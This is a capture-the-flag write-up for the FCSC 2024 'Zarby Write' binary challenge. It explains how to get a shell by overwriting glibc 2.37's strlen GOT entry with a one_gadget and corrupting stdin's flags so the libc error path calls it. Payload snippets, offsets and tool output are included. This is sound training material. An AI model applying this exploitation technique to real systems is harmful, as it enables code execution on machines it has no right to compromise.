

# FCSC 2024 - Zarby Write 

**🇫🇷 Énoncé:** 

On vous demande de lire le fichier `flag.txt` sur le serveur distant.

<br>

**🇬🇧 Task:** 

You are asked to read the `flag.txt` file on the remote server.

`nc challenges.france-cybersecurity-challenge.fr 2102`

**Provided files**: [zarby-write.tar](files/zarby-write.tar)

- `zarby-write` : The binary to exploit
- `libc-2.37.so` : The libc
- `ld-2.37.so` : The linker

## TL ; DR

- Overwrite strlen libc GOT entry by one_gadget
- Trigger a call to `__libc_message`
- Get shell

## 📖 Overview

### 🔄 Reverse engineering

This challenge provides us a binary file with no source code, so let's start ghidra.

Here is the decompiled pseudo code from ghidra:

```c
int main(void)
{
    int res;
    long in_FS_OFFSET;
    int i;
    undefined8 *where;
    undefined8 what;
    long canary;
    
    canary = *(long *)(in_FS_OFFSET + 0x28);
    setvbuf(stdin,(char *)0x0,2,0);
    setvbuf(stdout,(char *)0x0,2,0);
    printf("system@libc: %p\n",system);
    for (i = 0; i < 3; i = i + 1) {
        res = __isoc99_scanf("%llu %llu",&where,&what);
        if (res == 2) {
            *where = what;
        }
    }
    if (canary != *(long *)(in_FS_OFFSET + 0x28)) {
        __stack_chk_fail();
    }
    return 0;
}
```

I changed some variable names to help you understand even if the code is very straightforward.

1. It sets the buffering of stdin and stdout to NULL using `setvbuf` twice
2. It gives us a leak of system address
3. It allows us to write 3 values wherever we want

Well, it is a classical challenge where we have to find the trick.

### 💤 Brainstorming

The first idea that came in my mind is code execution after exit, because here we don't have many function calls and we need exactly 3 overwrites to get a beautiful call to `system` with `/bin/sh` with this technique.

Indeed, when the code exits using `exit`, it will call `__run_exit_handlers` which calls all the cleanup functions that are stored in the `initial` structure from the libc.

Here is the called function (the list may be longer depending on the loaded libraries):


The plan is:
1. Use the first write to overwrite the pointer guard in TLS by NULL to bypass pointer mangling
2. Use the second write to overwrite `initial` structure and change the pointer to `_dl_fini` by `system` address
3. Use the third write to overwrite `initial` structure and change the parameter passed to the function by `/bin/sh` address

However, to target the TLS, we have to know its address. In most of libc, its offset is constant and is mapped just before the libc, so a libc leak is enough to get its address.

In my debugging setup, the TLS was at a constant offset but before the linker.. Since we don't have any leak from the linker, I had to give up this option.

If you want to read more about code execution after exit, you can check this [link](https://github.com/nobodyisnobody/docs/tree/main/code.execution.on.last.libc/#5---code-execution-via-tls-storage-dtor_list-overwrite).

## 💣 Exploit

### 💡 The idea

My second idea was libc GOT overwrite, the libc until 2.38 are half relro by default, so we can just overwrite a GOT entry and trigger the call to this function.

A common technique is to overwrite `strlen` from the libc GOT, because this function is called by `puts` for example, but no `puts` here so how can we use it?

Well, we have 3 calls to `__isoc99_scanf` which reads input from stdin, what if we pollute stdin to make the call to `__isoc99_scanf` crash?

We can try to overwrite stdin flags with `0x4141414141414141` for example:


What is the function that prints this error? Let's use our friend GDB:


<hr>

**Note**:

By overwriting stdin flags with `0x4141414141414141`, the flag that holds if stdin is buffered is overwritten, so `__uflow` tries to free the buffer and it fails because the buffer of a FILE unbuffered is not on the heap, thus that is not a valid chunk.

<hr>

The function that displays the error is `malloc_printerr`, let's look its code in the [glibc source code](https://elixir.bootlin.com/glibc/glibc-2.37/source/malloc/malloc.c#L5648).

```c
static void malloc_printerr (const char *str)
{
#if IS_IN (libc)
  __libc_message ("%s\n", str);
#else
  __libc_fatal (str);
#endif
  __builtin_unreachable ();
}
```

We are in the libc, so `__libc_message` will be called, which is defined below:

```c
void __libc_message (const char *fmt, ...) {
    va_list ap;
    int fd = -1;

    va_start (ap, fmt);

#ifdef FATAL_PREPARE
    FATAL_PREPARE;
#endif

    if (fd == -1)
      fd = STDERR_FILENO;

    struct str_list *list = NULL;
    int nlist = 0;

    const char *cp = fmt;
    while (*cp != '\0')
    {
        /* Find the next "%s" or the end of the string.  */
        const char *next = cp;
        while (next[0] != '%' || next[1] != 's')
	    {
	        // ...
	    }

        /* Determine what to print.  */
        const char *str;
        size_t len;
        if (cp[0] == '%' && cp[1] == 's')
	    {
	        str = va_arg (ap, const char *);
	        len = strlen (str);
	        cp += 2;
	    }
        else
	    {
	        str = cp;
	        len = next - cp;
	        cp = next;
	    }

        // ...
    }

    if (nlist > 0)
    {
        // ...
    }

    va_end (ap);

    /* Kill the application.  */
    abort ();
}
```

Some of the code is truncated for readability, the important part is the call to `strlen` :-)

Nice so we can target the libc got!

### 1️⃣ First write

Now that we found our primitive, we have to target the correct GOT entry. To display it we can use the [gef fork from bata24](https://github.com/bata24/gef) that has an option to display the got of the libraries.

We can use the command `got -f /fullpath/to/libc-2.37.so`, a bunch of entries are displayed.

Our target is `__strlen_avx2`, let's check it in GDB:


Now we can check that the function is correctly called, we can follow the execution from the `malloc_printer`:


Alright, so we can definitely target `__strlen_avx2`!

So now we just have to compute the offset of the GOT entry from the libc base to get the good address:

```bash
gef> p 0x7ffff7df6080 - 0x00007ffff7c00000
$8 = 0x1f6080
```

Thus, we have to write at `libc.address + 0x1f6080`.

Here is our payload for the first write:

```py
strlen_avx2 = libc.address + 0x1f6080
jump = 0x4141414141414141

p.sendline(f"{strlen_avx2} {jump}".encode())
```

<hr>

**Notes**:

- For now we jump on `0x4141414141414141` for testing purpose, we'll complete the exploit after, don't worry!
- At this point, we need the libc base address computed from `system` leak, this part will be in the final exploit because it is just python stuff

<hr>


### 2️⃣ Second write

Now the second write has to pollute stdin so the last write will trigger our call to `malloc_printer`.

To do so, we just do as we did before to call `malloc_printer`, that is overwriting stdin flags by `0x4141414141414141`.

Here is our payload for the second write:

```py
p.sendline(f"{libc.sym['_IO_2_1_stdin_']} {0x4141414141414141}".encode())
```


### 3️⃣ Third write

Well, here, nothing to do.. The call of `__isoc99_scanf` will crash, so actually there is no third write.

### 🐚 Getting a shell

We have everything ready, first let's try our current exploit to check if we jump correctly on `0x4141414141414141`.



Here we go! Always a good taste. 😋

Now, we have to find a good address to jump, let's check available [one gadgets](https://github.com/david942j/one_gadget):

```
root@Ruulian:/host# one_gadget libs/libc-2.37.so 
0x4e899 posix_spawn(rsp+0xc, "/bin/sh", 0, rbx, rsp+0x50, environ)
constraints:
  address rsp+0x60 is writable
  rsp & 0xf == 0
  rax == NULL || {"sh", rax, r12, NULL} is a valid argv
  rbx == NULL || (u16)[rbx] == NULL

0x4e8a0 posix_spawn(rsp+0xc, "/bin/sh", 0, rbx, rsp+0x50, environ)
constraints:
  address rsp+0x60 is writable
  rsp & 0xf == 0
  rcx == NULL || {rcx, rax, r12, NULL} is a valid argv
  rbx == NULL || (u16)[rbx] == NULL

0xe35a9 execve("/bin/sh", rbp-0x50, r13)
constraints:
  address rbp-0x48 is writable
  r12 == NULL || {"/bin/sh", r12, NULL} is a valid argv
  [r13] == NULL || r13 == NULL || r13 is a valid envp

0xe3603 execve("/bin/sh", rbp-0x50, r13)
constraints:
  address rbp-0x50 is writable
  rax == NULL || {"/bin/sh", rax, NULL} is a valid argv
  [r13] == NULL || r13 == NULL || r13 is a valid envp
```

Well the one at `0xe35a9` seems good because r12 and r13 are NULL and rbp points to the stack at the jump.

Let's replace our target jump by `libc.address + 0xe35a9` and enjoy our shell:


## 🚩 Getting the flag

Now that we have our shell on our machine, let's try on the remote instance:


We got it!

You can find my final exploit [here](files/solve.py).

## Conclusion

Overall this challenge was not hard but is a good train because it is a challenge with a well known format. Thanks to the author for this cool challenge!

## References
- https://github.com/nobodyisnobody/docs/tree/main/code.execution.on.last.libc/
- https://elixir.bootlin.com/glibc/glibc-2.37/source/malloc/malloc.c#L5648
- https://elixir.bootlin.com/glibc/glibc-2.37/source/sysdeps/posix/libc_fatal.c#L57